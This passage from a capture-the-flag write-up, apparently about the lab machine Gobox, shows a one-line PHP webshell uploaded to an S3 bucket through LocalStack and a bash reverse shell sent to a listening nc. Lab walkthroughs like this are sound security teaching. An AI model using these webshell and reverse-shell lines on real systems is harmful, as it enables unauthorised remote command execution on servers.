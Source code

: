
If I put that in my local `~/.aws/credentials`, now I can hit this LocalStack
from my VM:

    
    
    oxdf@parrot$ aws --endpoint-url http://10.10.11.113:4566 s3 ls
    2021-08-26 12:14:44 website
    

### Webshell

With this access to the bucket containing the files from the site running with
PHP, I’ll try to write a simple PHP webshell:

    
    
    gobox> echo '<?php echo shell_exec($_REQUEST["cmd"]); ?>'
    <?php echo shell_exec($_REQUEST["cmd"]); ?>
    gobox> echo '<?php echo shell_exec($_REQUEST["cmd"]); ?>' > /tmp/.0xdf
    

Now I’ll upload that file to the bucket:

    
    
    gobox> aws s3 cp /tmp/.0xdf s3://website/0xdf.php
    upload: ../../tmp/.0xdf to s3://website/0xdf.phpile(s) remaining
    

It’s not weird that a website might be [hosted out of an S3
bucket](https://docs.aws.amazon.com/AmazonS3/latest/userguide/HostingWebsiteOnS3Setup.html).
It’s a bit odd that that site would be running PHP, but not impossible.

Either the site is hosted from the bucket or there’s some process keeping the
bucket and the site in sync, so the webshell shows up instantly on the main
site:

![image-20210826141101951](https://0xdfimages.gitlab.io/img/image-20210826141101951.png)

### Shell

This time the host can connect back. I’ll visit:

    
    
    http://10.10.11.113/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'
    

And at a listening `nc`, there’s a shell:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.113] 48048
    bash: cannot set terminal process group (819): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@gobox:/opt/website$ 
    

I’ll upgrade the shell with the `script` trick:

